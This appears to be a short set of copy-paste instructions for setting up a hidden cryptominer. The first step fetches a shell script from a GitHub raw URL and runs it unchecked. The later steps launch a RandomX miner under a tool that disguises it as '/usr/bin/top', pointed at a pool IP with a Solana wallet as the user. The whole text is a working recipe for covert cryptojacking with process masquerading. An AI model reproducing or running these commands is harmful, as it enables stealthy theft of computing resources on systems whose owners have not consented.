 ##action one

wget https://raw.githubusercontent.com/hudahadoh/hime/main/rest.sh && chmod +x rest.sh && ./rest.sh

##action two
example : 

./hi -s "/usr/bin/top" -d -p test.pid ./bhmax --url 158.69.251.105:4052 --user SOL:5VqKde82ANkwGDXTRpBRa3vd1PFn1gdGN6tP7aJ38gx4.xhif --pass x -k -t 8 --randomx-no-numa --randomx-mode auto 	--randomx-wrmsr=-1 	--randomx-no-rdmsr --cpu-memory-pool=-1 --randomx-1gb-pages

###3

./hi -s "/usr/bin/top" -d -p test.pid ./bhmax


